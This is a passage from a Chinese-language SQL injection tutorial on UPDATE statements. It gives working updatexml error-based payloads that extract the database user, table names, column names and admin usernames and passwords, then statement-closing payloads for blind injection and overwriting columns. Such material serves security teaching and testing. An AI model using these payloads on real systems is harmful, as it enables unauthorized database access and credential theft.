 UPDATE配合报错注入的语句结构：
```
'or updatexml(1,concat(0x7c,注入语句),2) or'
```

爆数据库用户名
```
'or updatexml(1,concat(0x7c,user()),2) or'
```
![](http://image.ixysec.com/image/sql/sql132.png)

爆表名
```
'or updatexml(0,concat(0x7c,(select group_concat(table_name) from information_schema.tables where table_schema = database())),1) or '
```
![](http://image.ixysec.com/image/sql/sql133.png)

爆列名
```
'or updatexml(0,concat(0x7c,(select group_concat(column_name) from information_schema.columns where table_name = 'admin')),1) or '
```
![](http://image.ixysec.com/image/sql/sql134.png)

爆数据
```
'or updatexml(0,concat(0x7c,(select concat(username,0x7c,password) from admin limit 0,1)),1) or '
```
![](http://image.ixysec.com/image/sql/sql135.png)

##### 闭合语句法

UPDATE语句闭合难度要比INSERT语句难一点，下面我们先看下UPDATE语句：
```
UPDATE table_name SET name='name',sex='sex',age='age',class='class' WHERE id=1
```
这里我们要用到它的特性构造：
```
-- 方法1：
payload:aaa' where id=1 and (盲注语句)--

UPDATE table_name SET col1='aaa' where id=1 and (盲注语句)--' where id = 1;

-- 方法2：
payload:aaa',col2=user() where id=1--

UPDATE table_name SET col1='aaa',col2=user() where id=1-- ' where id=1;
```
一般白盒测试的时候遇到几率多，因为我们需要知道它的列名。

这里侧重介绍一下第二种方法：

查数据库用户名
```
a',class=user() where id=1-- 
```
![](http://image.ixysec.com/image/sql/sql136.png)
